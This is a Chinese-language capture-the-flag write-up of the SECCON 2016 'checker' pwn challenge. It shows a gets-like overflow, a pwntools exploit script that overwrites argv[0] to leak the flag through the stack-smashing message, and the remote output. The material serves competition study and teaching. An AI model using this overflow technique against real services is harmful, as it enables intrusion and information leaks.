 ```yaml
---
title: '[SECCON CTF 2016 Quals] checker 300'
author: bruce30262
tags:
  - pwn
  - buffer overflow
  - SECCON CTF 2016
  - stack overflow
categories:
  - write-ups
date: 2016-12-15
layout: post
---
```

## Info  
> Category: pwn
> Point: 300
> Author: bruce30262 @ BambooFox


## Analyzing
64 bit ELF, Full RELRO, 有 stack canary 和 NX , 沒 PIE.

程式很小，行為也很簡單:

```
$ ./checker 
Hello! What is your name?
NAME : 123

Do you know flag?
>> 123

Do you know flag?
>> yes

Oh, Really??
Please tell me the flag!
FLAG : asdf
You are a liar...
```
簡單來說就是程式會讀我們的 input，然後比對 flag 內容 ( 正確的 flag 內容會存在 `.bss` section )，之後印出比對的結果。

程式使用自製的函式 `getaline()` 來讀 user 的 input

```c getaline
while ( buf && read(0, &buf, 1uLL) )
{
    if ( buf == 10 )
      buf = 0;
    *(_BYTE *)(a1 + (signed int)v4++) = buf; // a1 = input buffer
}
```

可以看到 `getaline()` 就跟 `stdio.h` 裡面的 `gets()` 一樣，除非讀到換行，否則會一直讀下去，因此這是一個很明顯的 buffer overflow 漏洞。

```
$ ./checker
Hello! What is your name?
NAME : 123

Do you know flag?
>> yes

Oh, Really??
Please tell me the flag!
FLAG : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You are a liar...
*** stack smashing detected ***: ./checker terminated
[1]    70548 abort      ./checker
```

## Exploit

一開始想嘗試直接蓋 return address，但是因為有 canary 的關係使得這很難做到。直到看到程式印出 stack smash 的 error message 時，才突然想起可以直接蓋 `argv[0]`，將指向執行檔路徑的 char* pointer 改成存 flag 的 buffer address，之後觸發 `stack_chk_fail`，使程式印出 error message，進而 leak 出 flag 的內容:
```
*** stack smashing detected ***: [flag content] terminated
```

這邊要注意的是 `argv[0]` 原本是一個 stack address，長度為 6 個 byte，而 flag 的 buffer address 位於 `0x6010c0`，長度為 3 個 byte，因此在蓋 `argv[0]` 之前要先將 `argv[0]` 作清空的動作，否則之後印 error message 時會 crash 掉。

```python exp_checker.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "checker.pwn.seccon.jp"
PORT = 14726
ELF_PATH = "./checker"
LIBC_PATH = ""

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']

context.log_level = 'INFO'

elf = ELF(ELF_PATH)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    pad = 0x178

    r.sendlineafter(": ", "aaaa")
    
    # null out argv[0]
    for i in xrange(8,-1,-1):
        payload = "A"*pad + "B"*i
        r.sendlineafter(">> ", payload)
    
    r.sendlineafter(">> ", "yes")

    # overwrite argv[0] to flag buffer
    payload = "A"*pad + p64(0x6010c0)
    r.sendlineafter(": ", payload)
	
    r.interactive()

```

exploit 在本地端可以 work，但是之後送 remote 端時卻一直沒噴回 flag。本來以為是 padding 的問題，但是在做了一些測試之後斷定 padding 是正確的，input buffer 離 `argv[0]` 就是 376 個 byte。因此之後就是瘋狂的鬼打牆，不斷地送同樣的 payload 到 remote 端並祈禱 exploit 能夠 work。然後就在比賽結束前 3 分鐘，奇蹟發生了...
```
[+] Opening connection to checker.pwn.seccon.jp on port 14726: Done
You are a liar...
*** stack smashing detected ***: SECCON{y0u_c4n'7_g37_4_5h3ll,H4h4h4} terminated
[*] Got EOF while reading in interactive
```

完全無法理解 XDDD ( 明明是一模一樣的 payload 啊 ! )
而且在這之後不管怎麼送就是不會 work，非常詭異

無論如何還是驚險地拿到了這 300 分 =w=

flag: `SECCON{y0u_c4n'7_g37_4_5h3ll,H4h4h4}`


## Afterword 
之後 **mike** 在 trello 上有提到，如果 `0x6010c0` 是在回答 yes 之前蓋的話就會 work。或是把 `sendlineafter()` 改成 `sendline()`，之後一次 `recvall()` 也會噴回 flag。
至於詳細原因為何至今仍然無解......
